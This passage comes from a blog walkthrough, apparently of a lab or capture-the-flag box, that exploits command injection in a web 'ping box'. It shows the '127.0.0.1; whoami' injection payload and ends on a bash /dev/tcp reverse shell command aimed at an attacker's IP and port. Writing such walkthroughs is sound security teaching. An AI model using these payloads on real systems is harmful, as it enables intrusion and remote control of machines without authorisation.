 

<figure class="wp-block-image is-resized"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-31.png" alt="" class="wp-image-93" width="728" height="240"/><figcaption>output of ping box for localhost IP</figcaption></figure>



<p>It works! But the output looks familiar. That's what the output of <strong>ping -c 3 127.0.0.1</strong> looks like. Don't believe me? See for yourself:</p>



<figure class="wp-block-image"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-33.png" alt="" class="wp-image-97"/></figure>



<p>What can you derive from this behavior of that "ping box"? It is that it is using a syntax which looks like this from inside:</p>



<pre class="wp-block-code"><code>$ ping -c 3 <i style="color:red;">&lt;entered_IP_address&gt;</i></code></pre>



<p>That &lt;entered_IP_address&gt; is controlled by us. That means we could somehow manipulate the command execution by passing some specially crafted payload(malicious input). What if I pass this in place of IP address.</p>



$ ping -c 3 <b style="color:red;">127.0.0.1; whoami</b>



<p>According to this approach, first the ping tool will ping the localhost address. But the <strong>whoami</strong> will be executed as an independent command due to that semicolon(;) placed before it which will end the previous command.<br>Let's test this payload in the "ping box".</p>



<figure class="wp-block-image is-resized"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-34.png" alt="" class="wp-image-99" width="674" height="89"/><figcaption>testing the payload</figcaption></figure>



<figure class="wp-block-image"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-36.png" alt="" class="wp-image-101"/></figure>



<p>Did you notice something? If not, then look at the last line of the output highlighted with red box. That <strong>whoami </strong>command we gave actually got executed. Yay, that means we have arbitrary code injection. Now the first thing an attacker generally does after discovering such a command injection vulnerability is to try to get a reverse shell using netcat. I tried the same but it didn't helped. The reason behind that was <strong>either the netcat isn't installed on the target system </strong>or <strong>the current user(apache) does not have permission to execute it</strong>. So we have to look somewhere else. </p>



<p>So I set up a netcat server listening on my attack machine and executed this command in the ping box for getting a reverse shell. I got this from <a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">here</a>.</p>



bash -i &gt;&amp; /dev/tcp/<i style="color:red;">attacker's_IP<b>/</b>port_no</i> 0&gt;&amp;1

